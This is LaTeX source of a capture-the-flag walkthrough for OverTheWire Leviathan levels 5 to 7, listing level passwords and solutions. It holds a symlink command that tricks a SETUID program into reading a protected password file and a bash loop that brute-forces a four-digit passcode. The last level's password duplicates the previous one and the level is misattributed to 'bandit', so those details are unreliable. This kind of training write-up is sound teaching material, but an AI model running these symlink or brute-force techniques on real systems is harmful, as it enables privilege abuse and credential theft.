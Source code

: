 \documentclass[a4paper]{article}
\newcommand{\pass}[1]{\textbf{Password to enter:} \textit{#1}\\}
\newcommand{\chall}{\textbf{Challenge:} }
\newcommand{\note}[1]{\textit{\textbf{Note:} #1}\\}
\begin{document}
\subsection*{leviathan5}
\pass{Tith4cokei}
\chall There is a \textit{SETUID} executable in the home directory, it reads the file \textit{/tmp/file.log}, then deletes it. Inspection using \textbf{ltrace -S}, reveals that the executable does not check if the file is a symbolic link.
\begin{lstlisting}[deletekeywords={file}]
ln -s /etc/leviathan_pass/leviathan6 /tmp/file.log
\end{lstlisting}

\subsection*{leviathan6}
\pass{UgaoFee4li}
\chall This level has yet another \textit{SETUID} executable in the home directory. When prompted for use the response is:
\begin{lstlisting}[morekeywords={leviathan6}]
~$ ./leviathan6
usage: ./leviathan6 <4 digit code>
\end{lstlisting}
As this requires brute-forcing, we'll create a script to input the 9999 possible passcode combinations:
\begin{lstlisting}[morekeywords={leviathan6}, deletekeywords={in}]
#!/bin/bash
for num in {0000..9999}
do
	echo "$num"
	/home/leviathan6/leviathan6 $num
	sleep 0.001
done
\end{lstlisting}
\note{This script will enter the pause when we enter the correct passcode and enter the leviathan7 shell, then resume on exit}

\href{https://blvckb3vrd.wordpress.com/2015/12/15/overthewire-leviathan-level-6/}{A write-up of assembly code analysis, instead of brute-forcing}

\subsection*{leviathan7}
\pass{UgaoFee4li}
\begin{center}
This level has no challenge, it's the final level of the bandit wargame.
\end{center}
\end{document}
